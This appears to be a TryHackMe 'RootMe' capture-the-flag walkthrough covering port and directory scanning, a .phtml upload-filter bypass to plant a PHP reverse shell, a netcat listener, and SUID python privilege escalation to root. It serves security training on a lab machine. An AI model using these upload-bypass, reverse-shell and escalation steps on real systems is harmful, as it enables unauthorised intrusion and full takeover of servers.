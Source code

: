 # RootMe
This is a fun starter challenge from TryHackMe, it’s a free room, rated Easy. I’ll be showing the step-by-step and explain the process.

![RootMe](../Images/thm_rootme_1.png)

**Tools: nmap, gobuster, netcat.**

### Task 1 — Deploy the machine
First step is connecting to the THM’s VPN through OpenVPN in your machine (for example, your Kali VM) or use the in-browser THM AttackBox. After that, just click on Start Machine to load the VM.

### Task 2 — Reconnaissance
Scan the machine, how many ports are open?  

I ran this nmap SYN scan to get the open ports and services’ versions from the target machine, in my case it had the IP 10.10.73.226:
> nmap -n -sSV -Pn 10.10.73.226

![RootMe](../Images/thm_rootme_2.png)

The scan shows that the ports 22 and 80 are open, so…
> Answer: 2

**What version of Apache is running?**  
As shown in the scan…
> Answer: 2.4.29

**What service is running on port 22?**  
Once again, as shown in the scan…  
> Answer: SSH

**Find directories on the web server using the GoBuster tool.**  
*Hint: gobuster dir -u 10.10.73.226 -w WORDLIST_PATH*  
For this one you just need to click on the ‘Completed’.  

**What is the hidden directory?**  
I ran gobuster with the following command, to find the directories:  
> gobuster dir -u 10.10.73.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

![RootMe](../Images/thm_rootme_3.png)

We got a few results right away, and upon testing them we get the right answer…  
> Answer: /panel/

### Task 3 — Getting a Shell
**Find a form to upload and get a reverse shell, and find the flag.**  
*Hint: Search for “file upload bypass” and “PHP reverse shell”.* 
The file with the flag will be “user.txt”  
Upon accessing the /uploads/ directory, we see that it is empty. In the /panel/ directory, we see an upload form.  

![RootMe](../Images/thm_rootme_4.png)

I went to the following website to get the php reverse shell code (file):  
http://pentestmonkey.net/tools/web-shells/php-reverse-shell  
As shown in the instructions, you should download the file, extract it and change the following fields on the php-reverse-shell.php file, based on your host machine’s IP in the THM network, (in my case, 10.6.66.7), and your port of choice (you can leave the default port):  
> $ip = ‘127.0.0.1’;
> $port = 1234;

If you try to upload the .php file, you’ll receive a “PHP not allowed” error. The solution is to upload a phtml file (“.phtml files tell the webserver that those are html files with dynamic content which is generated by the server… just like .php files in a browser behave. So, in productive usage you should experience no difference from .phtml to .php files.” — taken from a StackOverflow post), so you just need to change its extension.  
I uploaded the file and upon checking the /uploads/ directory, I’ve confirmed that it was successfully uploaded.  


![RootMe](../Images/thm_rootme_5.png)

Next thing, I started a Netcat listening session on my machine, waiting for the reverse shell to call back:
> nc -vnlp 1234

After that, just click on the file in the /uploads/ directory, so it runs the command, and you’ll get a shell on your terminal.

![RootMe](../Images/thm_rootme_6.png)

It’s a simple (dumb) shell, so we still need to upgrade it to a fully interactive shell. To do that, we can use the following Python pty module to spawn the shell:
> python -c ‘import pty; pty.spawn(“/bin/bash”)’

You should get the fully interactive shell right away.  
Running a “find / -name user.txt” command, we find the “user.txt” file at “/var/www/”, so we just need to “cat /var/www/” to grab the flag.  

### Task 4 — Privilege escalation
**Search for files with SUID permission, which file is weird?**  
*Hint: find / -user root -perm /4000*  
Next, we run the suggested command, but we redirect any error output to /dev/null, so we get a clearer result:  
> find / -user root -perm /4000 2> /dev/null

Right away, we find a few options, so we can test some of them. Upon testing, we see that the Python file has the following permissions:

![RootMe](../Images/thm_rootme_7.png)

The file has the SUID and SGID permissions (the ‘s’ in the ‘execute’ fields of the permissions, instead of either ‘-’ or ‘x’). A file with SUID/SGID permissions will always execute as the user/group who owns the file. In this case, it’s root!
> Answer: /usr/bin/python

**Find a form to escalate your privileges.**  
*Hint: Search for gtfobins*  
Once again, you just need to click on the ‘Completed’.  

**root.txt**
As suggested previously, we took a look at [**GTFObins**](https://gtfobins.github.io/). More specifically, in the SUID section, Python row (click on the SUID box in this row). You’ll be redirected to [**here**](https://gtfobins.github.io/gtfobins/python/#suid). To get permanent root privileges, I ran the following command:
> /usr/bin/python -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’

![RootMe](../Images/thm_rootme_8.png)

Next up, we can search for the “root.txt” file:
> find / -name root.txt

![RootMe](../Images/thm_rootme_9.png)

And then we can finally read the file and get the last flag!
> cat /root/root.txt

**That’s all folks!**  
Thanks for reading and keep hacking!

